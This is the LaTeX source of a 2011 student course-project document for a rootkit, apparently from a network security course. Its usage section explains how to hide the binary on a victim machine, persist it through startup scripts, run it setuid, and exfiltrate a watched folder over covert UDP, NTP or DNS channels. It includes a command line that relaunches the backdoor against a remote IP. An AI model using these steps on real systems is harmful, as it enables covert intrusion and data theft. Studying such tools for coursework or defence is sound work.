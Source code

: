\documentclass[titlepage]{article}
\begin{document}
\author{Stevan Stanisic and Santana Mach}
\title{COMP 8505 - Final Project \\ Rootkit \\ Testing Documents}
\date{Dec 05, 2011}
\maketitle{}

\tableofcontents
\pagebreak

\section{Introduction}

Placeholder.

\section{Usage Instructions}

Installation is not required, the functionality of the program is controlled by command-line switches, simply copy the binary to a surreptitious location on the target machine and either launch it manually or add it to a startup script.

To compile the program from source, the libpcap and openssl development libraries will be required.  Building the program from source should be possible with any version of GCC that supports at least the gnu99 C standard using the provided makefile.  Note, the makefile will also set the setuid bit on the resulting executable as the program requires elevated priveleges to open raw sockets.

The available command-line flags are:
-c : Use this option to activate Client mode. This should be used on the attacker's machine.
-s : Use this option to activate Server mode. This should be used on the victim machine.
-h : Use this option to see a short version of the program usage instructions.
-i <arg> : Use this option to specify the remote host that the machine will be communicating with. For the Client, this will be the server's IP. For the Server, this will be the Client's IP.
-w <arg> : Use this option to specify the folder to watch for exfiltration. Any files created or modified in this folder will be sent to the client.
-x <arg> : Use this option to specify the covert channel to use. 'u' for UDP source port, 'n' for NTP ref\_id, 'd' for DNS transaction id.

If you wish to change the watch folder, the easiest way to do this remotely is to use the ps utility to find your covert process on the victim machine and then execute 'kill <process id>; ./bkdoor -s -w <path> -i <ip> ... other options'.
\end{document}
